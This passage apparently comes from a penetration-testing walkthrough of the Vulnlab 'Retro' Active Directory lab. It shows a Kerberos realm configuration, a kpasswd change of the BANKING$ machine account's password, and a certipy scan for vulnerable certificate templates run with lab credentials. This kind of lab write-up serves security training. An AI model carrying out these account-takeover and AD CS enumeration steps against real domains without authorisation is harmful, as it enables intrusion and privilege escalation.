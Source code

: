 Then you have to edit the realms in the `/etc/krb5.conf`

```ini
[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

[realms]
        RETRO.VL = {
                kdc = DC.RETRO.VL
                admin_server = DC.RETRO.VL
        }
[domain_realm]
        .retro.vl = RETRO.VL
```

And then simply invoke `kpasswd`

```
syl@sylsec:~/vulnlab/Retro$ sudo kpasswd BANKING$
Password for BANKING$@RETRO.VL: 
Enter new password: 
Enter it again: 
Password changed.
```

And now we can use this account!

Lets enumerate the ADCS (Active Directory Certificate Services). I used `certipy` for that matter.

```
syl@sylsec:~/vulnlab/Retro$ certipy find -u trainee -p 'trainee' -dc-ip 10.10.113.62 -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Saved BloodHound data to '20231219202428_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231219202428_Certipy.txt'
[*] Saved JSON output to '20231219202428_Certipy.json'
```
